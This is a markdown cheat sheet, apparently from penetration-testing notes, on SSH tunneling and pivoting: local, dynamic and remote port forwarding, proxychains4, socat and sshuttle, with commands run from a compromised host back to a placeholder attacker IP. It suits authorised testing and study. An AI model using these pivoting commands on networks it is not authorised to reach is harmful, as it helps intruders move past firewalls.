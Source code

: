 # SSH Tunneling

With all of these, it can be good just to verify that the machine is listening on a given port after the tunnel is created.
This can be done with `ss -ntplu`

## Local Port Forwarding

Local SSH tunnel from `$OWNED_IP1` to some `EXTERNAL_IP` (run this from `${OWNED_IP0}`).
```
ssh -N -L 0.0.0.0:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${USER}@${OWNED_IP1}
```
This will allow traffic to go `${ATTACKER_IP} <--> ${OWNED_IP}:${OWNED_PORT} <--> ${EXTERNAL_IP}:${EXTERNAL_PORT}` 

## Dynamic Port Forwarding

If we want to be able to port-scan or otherwise interact with multiple ports of targets not directly reachable from our network,
we can use `proxychains4` with OpenSSH's dynamic port forward option.

With the following, OpenSSH opens a SOCKS proxy server:

```
ssh -N -D 0.0.0.0:${OWNED_PORT0} ${USER}@${ATTACKER_IP}
```

To make sure packages are sent in a compatible manner, we use `proxychains4`.
the default config is found in `/etc/proxychains4.conf`, but we can also specify a config file with `-f $pathToConfig`.

a config could be to add to a `proxychains4.conf`:

```
socks5 	${OWNED_IP0} ${OWNED_PORT0} 
```

Now, we can do eg. a call with smbclient like so:

```
proxychains4 -f proxychains4.conf smbclient ...
```
The trick is to use whatever tool you are calling with the same parameters you would otherwise with regards to IPs and ports, and just let proxychains handle the proxying.

## Remote Port Forwarding

(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

If the firewall setup doesn't allow us to SSH from `${OWNED_IP}`, which we have compromised, it can make sense to remote port forward back to our `${ATTACKER_IP}` with (run from `${OWNED_IP0}`):
```
ssh -N -R 127.0.0.1:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
Now, we can interact with `${EXTERNAL_IP}:${EXTERNAL_PORT}` via `127.0.0.1:${OWNED_PORT0}`.


## Remote Dynamic Port Forwarding
(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

Also, note that the OpenSSH client needs to be version 7.6 (from 2017) or above for this to work.

From `${OWNED_IP}`, we can also do remote dynamic port forwarding with:

```
ssh -N -R ${PROXYCHAINS_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
For this to work with `proxychains4`, we have to add the following to our config:

```
socks4 127.0.0.1 ${PROXYCHAINS_PORT}
```

Now, we can again interact with targets reachable from `${OWNED_IP}` from `${ATTACKER_IP}` by prefixing with `proxychains4` and then setting the IP/port of `${REMOTE_HOST}` we want to hit. 


## Utility tools

### sshuttle

sshuttle sets up a VPN-like connection between your machine and machines that are not directly reachable.

Get the subnets you want to tunnel through, and do:

socat port forward to the ssh server in `OWNED_IP1` and `OWNED_PORT1`:

```
socat -ddd TCP-LISTEN:${LISTENING_PORT0},fork TCP:${OWNED_IP1}:${OWNED_PORT1`}
```

Now, you get the subnets you want to tunnel through (these will be the subnets in `ip route` on `{OWNED_IP1}`) and do:

```
sshuttle -r ${USER}@${OWNED_IP0}:${OWNED_PORT0} ${SUBNET_IP1_1} ${SUBNET_IP1_2}
```
Once we authorize with local sudo and the pw of `$USER`,  we can now "directly" interact with hosts in `$SUBNET_IP1_2`, which were unreachable before.


### ligolo-ng

Consider looking into this tool.




### Ligolo-ng


